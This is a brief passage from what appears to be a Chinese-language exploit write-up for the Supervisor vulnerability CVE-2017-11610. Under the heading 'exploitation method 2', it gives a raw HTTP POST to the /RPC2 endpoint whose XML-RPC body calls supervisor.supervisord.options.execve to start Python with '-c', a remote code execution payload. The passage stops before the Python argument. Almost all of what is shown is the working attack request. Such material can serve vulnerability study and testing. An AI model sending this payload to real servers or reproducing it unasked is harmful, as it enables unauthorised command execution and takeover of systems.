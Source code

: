 ![05](./img/supervisor_CVE-2017-11610/05.png)

---

### 利用方式 2

```
POST /RPC2 HTTP/1.1
Host: 192.168.1.189:9001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 439

<?xml version="1.0"?>
<methodCall>
<methodName>supervisor.supervisord.options.execve</methodName>
<params>
<param>
<string>/usr/local/bin/python</string>
</param>
<param>
<array>
<data>
<value><string>python</string></value>
<value><string>-c</string></value>
```